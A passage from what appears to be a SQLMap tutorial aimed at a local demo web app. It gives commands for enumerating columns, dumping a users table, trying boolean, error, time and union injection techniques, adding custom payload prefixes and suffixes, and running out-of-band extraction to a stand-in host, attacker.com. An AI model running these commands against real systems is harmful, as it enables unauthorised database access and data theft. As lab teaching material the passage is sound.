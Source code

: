 Parameters explained:
- `-T users`: Specifies the target table
- `--columns`: Lists all columns in the specified table

### 5. Data Extraction

Extract data from the users table:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli -T users --dump --batch
```

Parameters explained:
- `--dump`: Extracts all data from the specified table

## Advanced SQLMap Techniques

### 1. Testing Different SQL Injection Techniques

SQLMap can attempt various techniques for exploitation:

```bash
# Boolean-based blind SQL injection
sqlmap -u "http://localhost:5000/user?id=1" --technique=B --batch

# Error-based SQL injection
sqlmap -u "http://localhost:5000/user?id=1" --technique=E --batch

# Time-based blind SQL injection
sqlmap -u "http://localhost:5000/user?id=1" --technique=T --batch

# UNION query-based SQL injection
sqlmap -u "http://localhost:5000/user?id=1" --technique=U --batch
```

Parameters explained:
- `--technique`: Specifies which techniques to use (B=boolean, E=error, T=time, U=union, S=stacked queries)

### 2. Using Custom Injection Payloads

For specific injection points or to demonstrate targeted attacks:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --prefix="'" --suffix="-- " --batch
```

Parameters explained:
- `--prefix`: String to append before the injection payload
- `--suffix`: String to append after the injection payload

### 3. Testing Out-of-band SQL Injection with SQLMap

SQLMap can detect and exploit out-of-band SQL injection vulnerabilities:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --technique=B --batch --dns-domain attacker.com
```
